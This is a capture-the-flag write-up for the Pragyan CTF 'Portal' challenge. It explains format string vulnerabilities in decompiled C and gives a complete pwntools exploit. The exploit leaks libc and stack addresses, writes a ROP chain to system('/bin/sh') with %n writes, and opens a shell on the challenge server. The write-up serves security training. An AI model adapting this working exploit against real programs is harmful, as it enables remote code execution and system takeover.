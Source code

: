# Portal

## Challenge

We're given binary and a server to connect to.
Connecting to the server or running the binary will show the following prompt:

```
Welcome!

What would you like to do?
1) Check Balance
2) Upgrade Pack
```

Options 1 and 2 call the functions `see_balance` and `init_pack`, respectively:

```c
void sym.see_balance(void) {
    int64_t in_FS_OFFSET;
    char *format;
    int64_t var_8h;
    
    var_8h = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.printf("You currently have Rs.%d left!\n", _obj.b);
    sym.imp.puts("Wanna upgrade pack?");
    sym.imp.fgets(&format, 100, _reloc.stdin);
    sym.imp.printf(&format);
    if (var_8h != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return;
}

void sym.init_pack(void) {
    if (_obj.b == 0xf9) {
        sym.upgrade_pack();
    }
    else {
        sym.imp.puts("You do not have enough balance :(");
    }
    return;
}
```

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

Notice that there is a format string vulnerability in the `see_balance` function.
We can use this to leak arbitrary values from the stack.

### My solution

Leaking a libc address and a stack addres will allow us to write a rop chain using multiple `printf` calls.

We can now repeatedly call `printf` using the `%n` conversion specifier to write a ropchain, 2 bytes at a time.

Finally, we enter `0` for our option, which is invalid and will cause the program to return.
Instead of returning into `libc_start_main`, the program will enter the rop chain and spawn a shell.

### Intended solution

Instead of leaking a libc address, we leak a `main` address to calculate the address of `_obj.b`.

Using the same vulnerability, we overwrite `_obj.b` with 0xf9 to reach the `upgrade_pack` function using option 2.

Here's what the function looks like decompiled:

```c
undefined8 sym.upgrade_pack(void) {
    int64_t iVar1;
    undefined8 uVar2;
    int64_t in_FS_OFFSET;
    undefined8 stream;
    char *format;
    char *s;
    int64_t var_8h;
    
    var_8h = *(int64_t *)(in_FS_OFFSET + 0x28);
    iVar1 = sym.imp.fopen("flag_maybe", 0x20bc);
    if (iVar1 == 0) {
        sym.imp.puts("Flag not found.");
        sym.imp.exit(1);
    }
    sym.imp.fgets(&s, 0x80, iVar1);
    sym.imp.fclose(iVar1);
    sym.imp.puts("Upgrading PAcK");
    uVar2 = sym.imp.malloc(0x12d);
    sym.imp.puts("Enter coupon code:");
    sym.imp.fgets(uVar2, 300, _reloc.stdin);
    sym.imp.puts("Upgrading pack with the coupon:");
    sym.imp.printf(uVar2);
    _obj.check = 1;
    sym.see_profile();
    uVar2 = 0;
    if (var_8h != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar2 = sym.imp.__stack_chk_fail();
    }
    return uVar2;
}
```

It reads the flag into memory, then there's another format string vulnerability.
We can use this to leak the stack and read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host binary.challs.pragyanctf.tech --port 6003 load
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('load')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'binary.challs.pragyanctf.tech'
port = int(args.PORT or 6003)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

libc = ELF('libc6_2.31-0ubuntu9.2_amd64.so')

io = start()

io.sendlineafter(b"2) Upgrade Pack\n", b"1")
io.sendlineafter(b"Wanna upgrade pack?\n", "%{}$p".format(0x98 // 8 + 6).encode())
libc.address = int(io.recvuntil(b"\n", drop=True), 0) - libc.libc_start_main_return

io.success("Libc: " + hex(libc.address))

io.sendlineafter(b"2) Upgrade Pack\n", b"1")
io.sendlineafter(b"Wanna upgrade pack?\n", "%{}$p".format(0x70 // 8 + 6).encode())
stack = int(io.recvuntil(b"\n", drop=True), 0)

io.success("stack: " + hex(stack))

rop = ROP(libc)
rop.raw(rop.ret)
rop.call('system', [next(libc.search(b'/bin/sh'))])

rop_addr = stack+8

for gadget in [rop.chain()[i:i+8] for i in range(0, len(rop.chain()), 8)]:
    print(gadget)
    fmt = fmtstr_payload(6, {rop_addr: gadget}, write_size='short')
    rop_addr += 8;

    print(fmt)
    print(len(fmt))

    io.sendlineafter(b"2) Upgrade Pack\n", b"1")
    io.sendlineafter(b"Wanna upgrade pack?\n", fmt)

io.sendlineafter(b"2) Upgrade Pack\n", b"0")

io.interactive()
```

## Flag

```
p_ctf{W3ll_1t_W4s_3aSy_0n1y}
```

